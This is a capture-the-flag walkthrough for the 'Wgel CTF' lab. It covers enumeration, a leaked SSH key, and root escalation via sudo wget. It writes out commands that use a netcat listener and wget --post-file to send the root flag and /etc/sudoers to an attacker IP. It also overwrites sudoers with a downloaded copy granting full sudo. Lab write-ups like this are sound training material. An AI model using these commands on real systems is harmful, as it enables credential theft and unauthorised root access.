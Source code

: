 # [cd ../](../index.md)
# Wgel CTF
> Can you exfiltrate the root flag?

# Start

## Enumeration

### Nmap
[nmaps](nmaps.txt)  

- We have port `22` and `80` open  
Port 80 source:
```
<!-- Jessie don't forget to udate the webiste -->
```
- We got the username `jessie`
### Dirsearch
- We found `/sitemap`  
![website](website.png)

- Run dirsearch again but now in `/sitemap`  
![ds_sitemap](ds_sitemap.png)
- Go to `/sitemap/.ssh` and download the `id_rsa` [file](files/id_rsa)

## Connecting to ssh
```
chmod 600 id_rsa
ssh -i id_rsa jessie@10.10.109.62
```
![usertxt](usertxt.png)

## Privilege escalation

`sudo -l` tell us everything we need.  
![sudo_-l](sudo_-l.png)

### Exploiting the vuln
Attacker:
```
nc -lvp 1337 > root.txt
```

Victim:
```
sudo wget --post-file=/root/root_flag.txt 10.8.22.204:1337
```

And just hold enter some time then just crtl+c and `cat root.txt`
- We got it  
![rootflag](rootflag.png)

## Getting a root shell
- Get the `/etc/sudoers` file from the victim

```
sudo wget --post-file=/etc/sudoers 10.8.22.204:1337
```
[sudoers](files/sudoers_og)

- Edit it so jessie could just `sudo su`
  Just replace `NOPASSWD: /usr/bin/wget` with `NOPASSWD: ALL` and u r done  
  ![sudoersedit](sudoers.png)  
  [sudoers_edited](files/sudoers)

- Download on victim, while replacing the original file

```
cd /etc
sudo wget 10.8.22.204:8000/files/sudoers --output-document=sudoers
```

Now we have the edited file
```
sudo su
```
We got the root shell!!  
![rootshell](rootshell.png)
